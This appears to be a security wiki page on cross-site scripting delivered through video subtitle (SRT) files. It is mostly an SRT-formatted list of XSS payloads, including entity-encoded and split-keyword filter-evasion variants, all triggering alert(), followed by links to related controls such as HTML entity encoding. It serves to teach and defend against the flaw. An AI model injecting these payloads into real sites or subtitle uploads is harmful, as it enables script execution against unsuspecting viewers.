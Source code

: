 ## Description

It is possible for an attacker to execute JavaScript in a video's
subtitle. This is also referred to as XSS (Cross-Site Scripting).if a
website load subtitle separately in browser then a attacker can run any
html or javascript in video subtitle. It has been tested on some video
services.

## Examples

the attacker can save the mentioned contents below by the format of srt
and upload prepared srt file as a video's subtitles

﻿

1
﻿ 00:00:37,618 --\> 00:00:42,557
﻿ \<font color="\#ffff00"\>: '';\!--"\<XSS\>=&{()}\</font\>

2
﻿ 00:00:58,425 --\> 00:01:00,704
﻿ <IMG SRC="javascript:alert('XSS');">

3
﻿ 00:01:00,705 --\> 00:01:01,873
﻿ <IMG SRC=javascript:alert('XSS')>

4
﻿ 00:01:02,225 --\> 00:01:04,519
﻿ <IMG SRC=javascript:alert('XSS')>

5
﻿ 00:01:04,520 --\> 00:01:05,547
﻿ <IMG SRC=javascript:alert('XSS')>

6
﻿ 00:01:05,864 --\> 00:01:08,117
﻿ <IMG SRC=javascript:alert('XSS')>

7
﻿ 00:01:08,224 --\> 00:01:09,223
﻿ \<IMG """\>

<SCRIPT>

alert("XSS")

</SCRIPT>

"\>

8
﻿ 00:01:09,224 --\> 00:01:10,434
﻿ <IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

9
﻿ 00:01:11,384 --\> 00:01:12,427
﻿ <IMG SRC=# onmouseover="alert('xxs')">

10
﻿ 00:01:15,504 --\> 00:01:17,506
﻿ <IMG SRC= onmouseover="alert('xxs')">

11
﻿ 00:01:19,743 --\> 00:01:20,786
﻿ <IMG onmouseover="alert('xxs')">

12
﻿ 00:01:24,183 --\> 00:01:25,351
﻿ <IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>

13
﻿ 00:01:40,663 --\> 00:01:41,705
﻿
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

14
﻿ 00:01:42,703 --\> 00:01:45,742
﻿ \<IMG SRC=<javascript:alert>( 'XSS')\>

15
﻿ 00:01:45,743 --\> 00:01:46,285
﻿ \<IMG
SRC=&\#0000106&\#0000097&\#0000118&\#0000097&\#0000115&\#0000099&\#0000114&\#0000105&\#0000112&\#0000116&\#0000058&\#0000097&
\#0000108&\#0000101&\#0000114&\#0000116&\#0000040&\#0000039&\#0000088&\#0000083&\#0000083&\#0000039&\#0000041\>

16
﻿ 00:01:48,503 --\> 00:01:49,545
﻿
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>

17
﻿ 00:01:49,582 --\> 00:01:51,709
﻿
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>

18
﻿ 00:01:54,822 --\> 00:01:58,200
﻿ <IMG SRC="jav   ascript:alert('XSS');">

19
﻿ 00:02:01,021 --\> 00:02:03,691
﻿ <IMG SRC="jav
ascript:alert('XSS');">

20
﻿ 00:02:04,702 --\> 00:02:05,744
﻿ <IMG SRC="javascript:alert('XSS');">

21
﻿ 00:02:15,700 --\> 00:02:18,536
﻿ \<IMG SRC="<javascript:alert>('XSS')"

22
﻿ 00:02:18,740 --\> 00:02:22,619
﻿ \\";alert('XSS');//



# Authors and Primary Editors

Mohammad MortazaviZade - 2mzrp2@gmail.com

## Related [Attacks](Attacks "wikilink")

  - [XSS Attacks](XSS_Attacks "wikilink")
  - [:Category:Injection Attack](:Category:Injection_Attack "wikilink")
  - [Invoking untrusted mobile
    code](Invoking_untrusted_mobile_code "wikilink")
  - [Cross Site History Manipulation
    (XSHM)](Cross_Site_History_Manipulation_\(XSHM\) "wikilink")

## Related [Vulnerabilities](Vulnerabilities "wikilink")

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")
  - [Cross Site Scripting Flaw](Cross_Site_Scripting_Flaw "wikilink")
  - [Types of Cross-Site
    Scripting](Types_of_Cross-Site_Scripting "wikilink")

## Related [Controls](Controls "wikilink")

  - [:Category:Input Validation](:Category:Input_Validation "wikilink")
  - [HTML Entity Encoding](HTML_Entity_Encoding "wikilink")
  - [Output Validation](Output_Validation "wikilink")
  - [Canonicalization](Canonicalization "wikilink")

## Categories

[Category:Injection](Category:Injection "wikilink")
[Category:Attack](Category:Attack "wikilink") [Category:Code
Snippet](Category:Code_Snippet "wikilink")